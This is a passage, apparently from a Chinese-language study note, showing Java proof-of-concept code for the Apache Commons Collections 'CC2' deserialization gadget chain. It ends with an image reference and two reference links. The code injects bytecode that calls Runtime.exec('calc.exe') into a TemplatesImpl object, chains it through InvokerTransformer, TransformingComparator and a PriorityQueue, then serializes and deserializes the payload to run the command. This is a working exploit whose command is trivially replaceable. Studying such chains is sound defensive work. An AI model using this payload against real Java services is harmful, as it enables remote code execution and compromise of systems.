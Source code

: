 ```

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        Object queue_array = new Object[]{templates,1};
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        field.setAccessible(true);
        field.set(queue,queue_array);

        Field field1 = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        field1.setAccessible(true);
        field1.set(queue,2);

        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC2Test2.txt"));
        os.writeObject(queue);
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC2Test2.txt"));
        fos.readObject();
    }
    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

![image-20211223132947443](images/20.png)



参考文章

https://xz.aliyun.com/t/10387#toc-3

https://blog.csdn.net/qq_41918771/article/details/117194343
